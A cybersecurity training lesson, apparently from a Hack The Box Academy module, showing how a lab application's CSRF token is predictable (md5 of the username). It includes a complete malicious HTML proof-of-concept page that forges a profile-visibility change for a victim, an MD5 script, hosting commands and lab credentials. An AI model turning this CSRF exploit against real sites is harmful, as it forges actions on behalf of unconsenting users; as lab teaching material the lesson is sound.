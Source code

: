﻿Often, web applications do not employ very secure or robust token generation algorithms. An example is an application that generates CSRF tokens as follows (pseudocode):Â `md5(username)`.

How can we tell if that is the case? We can register an account, look into the requests to identify a CSRF token, and then check if the MD5 hash of the username is equal to the CSRF token's value.

Let us see this in action!

Proceed to the end of this section and click onÂ `Click here to spawn the target system!`Â or theÂ `Reset Target`Â icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate toÂ `http://csrf.htb.net`Â and log in to the application using the credentials below:

- Email: goldenpeacock467
- Password: topcat

Open Web Developer Tools (Shift+Ctrl+I in the case of Firefox) and focus on theÂ _Network_Â tab.

Back to the user's profile, pressÂ _Change Visibility_Â and thenÂ _Make Public_.

You should see a request similar to the one below. Note the value of the CSRF token.

![image](https://academy.hackthebox.com/storage/modules/153/49.png)

Execute the below command to calculate the MD5 hash of the string "goldenpeacock467" (the username).

```shell-session
smoothment@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

You will notice that the resulting hash is the same as the CSRF value! This means that the CSRF token is generated by MD5-hashing the username.

When assessing how robust a CSRF token generation mechanism is, make sure you spend a small amount of time trying to come up with the CSRF token generation mechanism. It can be as easy asÂ `md5(username)`,Â `sha1(username)`,Â `md5(current date + username)`Â etc. Please note that you should not spend much time on this, but it is worth a shot.

Now that we know how the CSRF token for this action is generated let us see how we can attack other users through CSRF.

Find below the malicious page. Save it asÂ `press_start_2_win.html`


```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```

For your malicious page to have MD5-hashing functionality, save the below asÂ `md5.min.js`Â and place it in the directory where the malicious page resides.

```javascript
!function(n){"use strict";function d(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function f(n,t,r,e,o,u){return d((u=d(d(t,n),d(e,u)))<<o|u>>>32-o,r)}function l(n,t,r,e,o,u,c){return f(t&r|~t&e,n,t,o,u,c)}function g(n,t,r,e,o,u,c){return f(t&e|r&~e,n,t,o,u,c)}function v(n,t,r,e,o,u,c){return f(t^r^e,n,t,o,u,c)}function m(n,t,r,e,o,u,c){return f(r^(t|~e),n,t,o,u,c)}function c(n,t){var r,e,o,u;n[t>>5]|=128<<t%32,n[14+(t+64>>>9<<4)]=t;for(var c=1732584193,f=-271733879,i=-1732584194,a=271733878,h=0;h<n.length;h+=16)c=l(r=c,e=f,o=i,u=a,n[h],7,-680876936),a=l(a,c,f,i,n[h+1],12,-389564586),i=l(i,a,c,f,n[h+2],17,606105819),f=l(f,i,a,c,n[h+3],22,-1044525330),c=l(c,f,i,a,n[h+4],7,-176418897),a=l(a,c,f,i,n[h+5],12,1200080426),i=l(i,a,c,f,n[h+6],17,-1473231341),f=l(f,i,a,c,n[h+7],22,-45705983),c=l(c,f,i,a,n[h+8],7,1770035416),a=l(a,c,f,i,n[h+9],12,-1958414417),i=l(i,a,c,f,n[h+10],17,-42063),f=l(f,i,a,c,n[h+11],22,-1990404162),c=l(c,f,i,a,n[h+12],7,1804603682),a=l(a,c,f,i,n[h+13],12,-40341101),i=l(i,a,c,f,n[h+14],17,-1502002290),c=g(c,f=l(f,i,a,c,n[h+15],22,1236535329),i,a,n[h+1],5,-165796510),a=g(a,c,f,i,n[h+6],9,-1069501632),i=g(i,a,c,f,n[h+11],14,643717713),f=g(f,i,a,c,n[h],20,-373897302),c=g(c,f,i,a,n[h+5],5,-701558691),a=g(a,c,f,i,n[h+10],9,38016083),i=g(i,a,c,f,n[h+15],14,-660478335),f=g(f,i,a,c,n[h+4],20,-405537848),c=g(c,f,i,a,n[h+9],5,568446438),a=g(a,c,f,i,n[h+14],9,-1019803690),i=g(i,a,c,f,n[h+3],14,-187363961),f=g(f,i,a,c,n[h+8],20,1163531501),c=g(c,f,i,a,n[h+13],5,-1444681467),a=g(a,c,f,i,n[h+2],9,-51403784),i=g(i,a,c,f,n[h+7],14,1735328473),c=v(c,f=g(f,i,a,c,n[h+12],20,-1926607734),i,a,n[h+5],4,-378558),a=v(a,c,f,i,n[h+8],11,-2022574463),i=v(i,a,c,f,n[h+11],16,1839030562),f=v(f,i,a,c,n[h+14],23,-35309556),c=v(c,f,i,a,n[h+1],4,-1530992060),a=v(a,c,f,i,n[h+4],11,1272893353),i=v(i,a,c,f,n[h+7],16,-155497632),f=v(f,i,a,c,n[h+10],23,-1094730640),c=v(c,f,i,a,n[h+13],4,681279174),a=v(a,c,f,i,n[h],11,-358537222),i=v(i,a,c,f,n[h+3],16,-722521979),f=v(f,i,a,c,n[h+6],23,76029189),c=v(c,f,i,a,n[h+9],4,-640364487),a=v(a,c,f,i,n[h+12],11,-421815835),i=v(i,a,c,f,n[h+15],16,530742520),c=m(c,f=v(f,i,a,c,n[h+2],23,-995338651),i,a,n[h],6,-198630844),a=m(a,c,f,i,n[h+7],10,1126891415),i=m(i,a,c,f,n[h+14],15,-1416354905),f=m(f,i,a,c,n[h+5],21,-57434055),c=m(c,f,i,a,n[h+12],6,1700485571),a=m(a,c,f,i,n[h+3],10,-1894986606),i=m(i,a,c,f,n[h+10],15,-1051523),f=m(f,i,a,c,n[h+1],21,-2054922799),c=m(c,f,i,a,n[h+8],6,1873313359),a=m(a,c,f,i,n[h+15],10,-30611744),i=m(i,a,c,f,n[h+6],15,-1560198380),f=m(f,i,a,c,n[h+13],21,1309151649),c=m(c,f,i,a,n[h+4],6,-145523070),a=m(a,c,f,i,n[h+11],10,-1120210379),i=m(i,a,c,f,n[h+2],15,718787259),f=m(f,i,a,c,n[h+9],21,-343485551),c=d(c,r),f=d(f,e),i=d(i,o),a=d(a,u);return[c,f,i,a]}function i(n){for(var t="",r=32*n.length,e=0;e<r;e+=8)t+=String.fromCharCode(n[e>>5]>>>e%32&255);return t}function a(n){var t=[];for(t[(n.length>>2)-1]=void 0,e=0;e<t.length;e+=1)t[e]=0;for(var r=8*n.length,e=0;e<r;e+=8)t[e>>5]|=(255&n.charCodeAt(e/8))<<e%32;return t}function e(n){for(var t,r="0123456789abcdef",e="",o=0;o<n.length;o+=1)t=n.charCodeAt(o),e+=r.charAt(t>>>4&15)+r.charAt(15&t);return e}function r(n){return unescape(encodeURIComponent(n))}function o(n){return i(c(a(n=r(n)),8*n.length))}function u(n,t){return function(n,t){var r,e=a(n),o=[],u=[];for(o[15]=u[15]=void 0,16<e.length&&(e=c(e,8*n.length)),r=0;r<16;r+=1)o[r]=909522486^e[r],u[r]=1549556828^e[r];return t=c(o.concat(a(t)),512+8*t.length),i(c(u.concat(t),640))}(r(n),r(t))}function t(n,t,r){return t?r?u(t,n):e(u(t,n)):r?o(n):e(o(n))}"function"==typeof define&&define.amd?define(function(){return t}):"object"==typeof module&&module.exports?module.exports=t:n.md5=t}(this);
//# sourceMappingURL=md5.min.js.map
```

We can serve the page and JavaScript code above from our attacking machine as follows.


```shell-session
smoothment@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Open aÂ `New Private Window`, navigate toÂ `http://csrf.htb.net`Â and log in to the application using the credentials below:

- Email: crazygorilla983
- Password: pisces

This account will play the role of the victim. As you can see, Ela Stienen's profile is not public. Let us try to make it public through a CSRF attack.

While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machineÂ `http://<VPN/TUN Adapter IP>:1337/press_start_2_win.html`.

![image](https://academy.hackthebox.com/storage/modules/153/60.png)

Now press "Start!". You will notice that when Ela Stienen presses "Start," her profile will become public!

![image](https://academy.hackthebox.com/storage/modules/153/61.png)

The following section will focus on some possible CSRF protection bypasses that you should try during web application penetration tests or bug bounty hunting.

# Question
---

![Pasted image 20250219130712.png](../../../../IMAGES/Pasted%20image%2020250219130712.png)

